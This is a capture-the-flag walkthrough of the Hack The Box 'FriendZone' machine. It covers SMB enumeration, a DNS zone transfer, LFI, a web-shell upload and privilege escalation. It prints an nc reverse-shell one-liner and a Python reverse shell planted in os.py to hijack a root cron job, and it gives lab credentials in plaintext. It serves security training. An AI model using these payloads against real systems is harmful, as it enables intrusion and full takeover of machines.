

# [FriendZone](https://app.hackthebox.com/machines/friendzone)


```bash
rustscan 10.10.10.123
```


Let's do nmap scan for open ports.


```bash
nmap -sC -sV -p 21,22,53,80,139,443,445 10.10.10.123
```


Let's enumerate SMB shares.

```bash
smbmap -H 10.10.10.123
```


Let's connect to 'Development' share., we don't find anything useful.

```bash
smbclient -N //10.10.10.123/Development 
```

Try to join 'general' share.

```bash
smbclient -N //10.10.10.123/general
```

and We find admin credentials..


admin:WORKWORKHhallelujah@#


Let's search for subdomains via 'dig' tool.

```bash
dig axfr friendzone.red @10.10.10.123
dig axfr friendzoneportal.red @10.10.10.123
```


Let's add this domains to our '/etc/hosts' file for resolving purposes.


For https on 'administrator1.friendzone.red' , I see login form, I use 'admin:WORKWORKHhallelujah@#' credentials and I can login.


I am on Dashboard page.


Let's do directory brute-forcing.

```bash
gobuster dir -u https://administrator1.friendzone.red -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php -k

```

```bash
Note: -k option for gobuster to skip TLS verification.
```


Here, I found LFI and see that


Let's read source code of application.


We can grab also 'upload.php' file.


I see from source code, that I need to add my webshell into SMB Share which I found before. (have write ACCESS to 'Development' share)


I upload my webshell into share.

```bash
smbclient -N //10.10.10.123/Development -c 'put cmd.php dr4ks.php'
```




I can execute commands via web shell, I uploaded into SMB Share.


Now, it's time tp add reverse shell to command and get shell.


Reverse shell payload:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.4 1337 >/tmp/f
```


I spawned interactive shell.

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl + Z
stty raw -echo ; fg
```
Put some modifications
```bash
export TERM=xterm
export SHELL=bash
```

I found clear-text credentials of 'friend' user.


friend: Agpyu12!0.213$


user.txt


Here, I see and investigate '/opt/server_admin/reporter.py' file that runned by root for every 2 minutes (**identified by pspy64 tool)**


While reading this file, 'os' library is used for executing commands, I can exploit this vulnerability.


Let's add reverse shell into '/usr/lib/python2.7/os.py' file.

```python
import socket
import subprocess
import os


s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.4",1337))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```


root.txt


